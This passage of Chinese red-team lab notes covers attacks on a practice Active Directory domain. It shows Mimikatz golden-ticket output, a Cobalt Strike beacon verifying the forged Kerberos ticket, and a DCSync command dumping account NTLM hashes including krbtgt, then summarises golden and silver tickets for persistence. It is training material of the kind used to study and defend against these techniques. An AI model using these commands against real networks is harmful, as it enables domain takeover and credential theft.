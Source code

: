         Target    : owa.god.org
        Lifetime  : 2024/11/22 16:02:01 ; 2034/11/20 16:02:01 ; 2034/11/20 16:02:01
        -> Ticket : ** Pass The Ticket **
        
         * PAC generated
         * PAC signed
         * EncTicketPart generated
         * EncTicketPart encrypted
         * KrbCred generated
        
        Golden ticket for 'administrator @ god.org' successfully submitted for current session
        ```
        
    - 查看是否导入成功
        
        ```python
        beacon> shell klist
        [*] Tasked beacon to run: klist
        [+] host called home, sent: 36 bytes
        [+] received output:
        
        当前登录 ID 是 0:0xacf16
        
        缓存的票证: (1)
        
        #0>	客户端: administrator @ god.org
        	服务器: LDAP/owa.god.org @ god.org
        	Kerberos 票证加密类型: RSADSI RC4-HMAC(NT)
        	票证标志 0x40a00000 -> forwardable renewable pre_authent 
        	开始时间: 11/22/2024 16:02:01 (本地)
        	结束时间:   11/20/2034 16:02:01 (本地)
        	续订时间: 11/20/2034 16:02:01 (本地)
        	会话密钥类型: RSADSI RC4-HMAC(NT)
        ```
        
    - 通过dcsync查询域控上的hash值
        
        ```python
        beacon> mimikatz lsadump::dcsync /domain:god.org /all /csv
        [*] Tasked beacon to run mimikatz's lsadump::dcsync /domain:god.org /all /csv command
        [+] host called home, sent: 813681 bytes
        [+] received output:
        [DC] 'god.org' will be the domain
        [DC] 'owa.god.org' will be the DC server
        [DC] Exporting domain 'god.org'
        [rpc] Service  : ldap
        [rpc] AuthnSvc : GSS_NEGOTIATE (9)
        502	krbtgt	58e91a5ac358d86513ab224312314061	514
        1106	ligang	1e3d22f88dfd250c9312d21686c60f41	512
        1107	DEV1$	bed18e5b9d13bb384a3041a10d43c01b	4128
        1104	ROOT-TVI862UBEH$	6bbf3561300bef0e1f8e3fadec53500e	4096
        1001	OWA$	5f7687a3b909b00386ca167919e883d1	532480
        1000	liukaifeng01	f98564f9c7fab916678466075899f6e1	544
        500	Administrator	f98564f9c7fab916678466075899f6e1	512
        1105	STU1$	b9116b875737a6fc3dcc996369db2505	4128
        1108	a	685c5f49ed0f0821ca58781a0b902f2e	66048
        ```
        
    - 然后可以通过`krbtgt`的`hash`值制作金票
    - 然后再通过之前的方法上线
    
    ## 总结
    
    金票需要拿到krbtgt用户的hash，银票需要拿到服务账号hash，银票更加隐蔽，因为不用经过KDC，通常都是用于权限维持，一般都要在拿到权限后捏造